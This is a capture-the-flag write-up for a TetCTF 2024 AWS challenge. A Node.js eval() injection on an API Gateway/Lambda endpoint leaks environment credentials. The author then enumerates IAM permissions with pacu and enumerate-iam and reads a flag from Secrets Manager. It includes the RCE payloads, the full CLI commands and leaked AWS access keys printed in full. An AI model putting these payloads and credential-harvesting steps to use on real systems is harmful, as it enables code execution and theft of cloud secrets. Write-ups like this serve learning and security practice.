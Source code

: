# Challenge link
URL:      [https://huk5xbypcc.execute-api.ap-southeast-2.amazonaws.com/dev/vulnerable?vulnerable="Welcome to TetCTF!"](https://huk5xbypcc.execute-api.ap-southeast-2.amazonaws.com/dev/vulnerable?vulnerable="Welcome_to_TetCTF!") 

(maybe the server was shut down)

# Challenge description
Let’s see what you can do with this vulnerable API GW endpoint.
Note: AWS Account is not needed for this challenge

# Challenge source file
Blackbox

# Catergory
Web/cloud service exploitation

# Difficulty
Hard

# Author
Chi Tran (Twitter: @imspicynoodles) (Discord: iam.chi)

# Approach
- When I connected to the website, all I saw was just a simple page:
  ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/7da8df0c-c3ba-491b-8cc4-a4840e944830)

- There is a parameter on the URL. I tried to modify it:
  ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/b1d4e2c7-166a-4264-b4d6-e73e1e497257)

- The message is "Evaluated User Input" so I think they used *eval()* in the backend, so we can gain RCE. After a while, I realized that they use Javascript for the backend. This is the payload:
  ```
  process.env
  ```
  Or you can use this to read other things on the server:
  ```
  require('child_process').execSync('env', {encoding: 'UTF-8'}).trim().split('\n')
  ```
  (I switched to Burpsuite for convenient)
  
  ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/a18acd23-cb01-450f-9b90-70008e157fc7)

- The challenge is hosted on AWS service and I see some interesting thing like AWS_ACCESS_KEY_ID, AWS_SECRET_ACCESS_KEY so I search for it on google. There are a few post I found it interesting:
  
  [https://blog.appsecco.com/hacking-aws-lambda-for-security-fun-and-profit-c140426b6167](https://blog.appsecco.com/hacking-aws-lambda-for-security-fun-and-profit-c140426b6167)
  
  [https://www.linkedin.com/pulse/exploiting-aws-lambda-gain-rce-access-s3-buckets-arav-budhiraja](https://www.linkedin.com/pulse/exploiting-aws-lambda-gain-rce-access-s3-buckets-arav-budhiraja)
  
  [AWS exploit cheatsheet](https://github.com/pop3ret/AWSome-Pentesting/blob/main/AWSome-Pentesting-Cheatsheet.md)
  
- I knew that this website use AWS lambda service. Usually, when deployed, AWS cloud saves information about itself in the Linux server as environment variables, including sensitive things like sessionID, secret key, ... I had all of them, the next mission is exploiting the AWS cloud.

# Problem-solving
  ## Find a priviledged account 
  - I install AWS CLI on my WSL and use those three token:
    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/14c77bfa-8d67-4954-9103-23b71b7672cb)

  - Set environment variables (AWS cloud service's requirement to access an user account):
    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/d11e24ef-5239-4656-88e4-ee895d46668f)

  - Now it's time to check if the account is set. I use this AWS command:
    ```
    aws sts get-caller-identity
    ```
    (It has the same meaning as *whoami* in Linux)
    
    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/025f4254-4efd-40ca-8fe5-6d5a3d012bf6)

  - AWS S3 is a service that used to storing data of the cloud server. After reaading the cheatsheet (link above), I tried a s3 command:
    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/c714633d-7834-41b1-9652-5f22fd296434)

  - Maybe this account has restricted priviledge. Since AWS has so many service and command, I used this tool to bruteforce account's priviledge:
    
    [Source code Github](https://github.com/RhinoSecurityLabs/pacu)
    
    Command to install:
    ```
    pip3 install -U pacu
    ```

  - Use pacu to bruteforce priviledge:
    Create new attack session:
    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/a30441b5-07e7-4271-9017-377b2787fd6d)

    Use *ls* to list all the command of the tool. In this scenario, I use *iam__bruteforce_permissions*:
    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/e82956b2-b214-44de-8c55-6faab1d2e1c2)

    Type Y to accept, and wait for it.

  - After a while, the bruteforce result tell me that this account has very stricted priviledge and cannot do anything more:
    
    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/d1067780-a9f7-4072-b534-27db5a3aebb5)
    (some not interesting commands)

  - To ensure that, I also use another tool:
    [enumerate-iam](https://github.com/andresriancho/enumerate-iam)

  - And it didn't find anything else:
    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/d3cc96b9-d135-49b2-bbd8-99101a30a296)

  - This is very tricky, so I have to read again all the documents and information I've retrieved. But there is a thing:
    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/565ce8d0-4897-4797-9eb4-1966222361d4)

  - Other writeups do not have this token. This is so weird, so I asked a cloud engineer about this. He said that the token I used is for execution role but it doesn't have any priviledge. He also said that AWS lambda can ignore that token and use the pre-defined token saved in the environment variable. So, that means the ENV_ tokens above are the correct tokens.

  - Re-setup those token:
    ```
    unset AWS_SESSION_TOKEN (this session token is for execution role that do not have any priviledge, so I have to remove it)
    export AWS_ACCESS_KEY_ID='AKIAX473H4JB76WRTYPI' (replace with the value of ENV_ACCESS_KEY token)
    export AWS_SECRET_ACCESS_KEY='f6N48oKwKNkmS6xVJ8ZYOOj0FB/zLb/QfXCWWqyX' (replace with the value of ENV_SECRET_ACCESS_KEY token)
    ```
  - Then re run this command to check if the setup is done:
    ```
    aws sts get-caller-identity
    ```
    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/0d4505b5-b6c0-4fd8-b272-e738410dc517)

  - HURRAYYYYYYY!

  ## Bruteforce priviledge
  - After gaining access to secret-user, I should check what command can this user do. I use the enumerate-iam tool for this purpose because it's faster:
    ```
    python3 enumerate-iam.py --access-key AKIAX473H4JB76WRTYPI --secret-key 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 --region ap-southeast-2
    ```
    You can find region in AWS leaked information above.

    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/173c95e2-a98e-47d5-9328-8d8a9beaa273)

  - The result give me a suspicious command: *secretsmanager.list_secrets()*. I asked chatGPT about it and get the correct syntax:
    ```
    aws secretsmanager list-secrets
    ```
    
    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/4d29e816-2502-4bc1-a4ad-8222d5013f2c)

  - Now I use this command to read the secret:
    ```
    aws secretsmanager get-secret-value --secret-id arn:aws:secretsmanager:ap-southeast-2:543303393859:secret:prod/TetCTF/Flag-gnvT27
    ```

    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/193788ae-1db1-407f-9b41-1a374fb5df9f)

  - Flag: TetCTF{B0unTy_$$$-50_for_B3ginNeR_2a3287f970cd8837b91f4f7472c5541a}
